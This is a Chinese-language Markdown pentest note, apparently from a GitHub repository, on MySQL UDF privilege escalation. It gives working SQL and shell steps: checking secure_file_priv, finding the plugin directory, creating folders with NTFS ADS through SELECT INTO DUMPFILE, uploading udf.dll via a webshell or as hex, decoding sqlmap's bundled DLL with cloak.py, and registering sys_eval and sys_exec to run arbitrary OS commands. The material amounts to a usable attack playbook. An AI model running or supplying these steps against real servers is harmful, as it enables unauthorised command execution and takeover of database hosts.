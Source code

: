     -  然后向mysql注册xxx.dll `create function sys_eval returns string soname 'udf.dll';`

- **一般Lib、Plugin文件夹需要手工建立**

- **将dll上传方式推荐几种**:

    - 通过webshell上传
    - 以hex方式直接上传

- **UDF提权步骤**:

    - **查看 secure_file_priv  的值**,

        - `show global variables like 'secure%';`

        - 我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。为指定路径则是指定路径可写，null表示不允许写

        - 在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL，但是可以通过其他方法写文件。

    - **查看系统架构以及plugin目录**

        ```mysql
        show variables like '%compile%';    #查看主机版本及架构，以此确定是32位还是64位的udf文件
        select @@basedir; #查看mysql安装位置
        show variables like 'plugin%'; #查看 plugin 目录 ，这样就可以查到插件路径了,无论有没有这个目录，都会显示它的路径，所以需要我们创建这个路径
        ```

    - 创建plugin目录（如果没有的话）

        - 写入webshell再去创建

        - ```mysql
            select 'It is dll' into dumpfile 'C:\\phpStudy\\MySQL\\lib::$INDEX_ALLOCATION'; 
            //利用NTFS ADS创建lib目录
            select 'It is dll' into dumpfile 'C:\\phpStudy\\MySQL\\lib\\plugin::$INDEX_ALLOCATION'; 
            //利用NTFS ADS创建plugin目录
            #win10下复现，显示权限不允许。
            #https://www.freebuf.com/articles/database/291175.html。经实践在命令提示符下使用ADS文件流是可以成功创建目录或者文件名的，但在独立安装的mysql数据库环境与phpstudy自带mysql环境下均创建失败，并且查阅网上各种文章也都是没有利用成功的，严重怀疑是哪位小可爱臆想出来的，但为了文章完整性还是决定写出来。
            ```

    - ##### **有webshell时，直接上传udf文件。**

        - 当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。

        - 当MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下     (lib\plugin目录默认不存在，需自行创建)。

        - #### **sqlmap中：sqlmap\data\udf\mysql**

            - 有linux，有windows版本的，32位，64位

            - 使用cloal.py解码udf.dll，会得到udf.dll

                - ```cmd
                    python .\cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_
                    ```

                - sys_eval，执行任意系统命令，并将输出返回。

                - sys_exec，执行任意系统命令，并将退出码返回（无命令执行结果回显）。
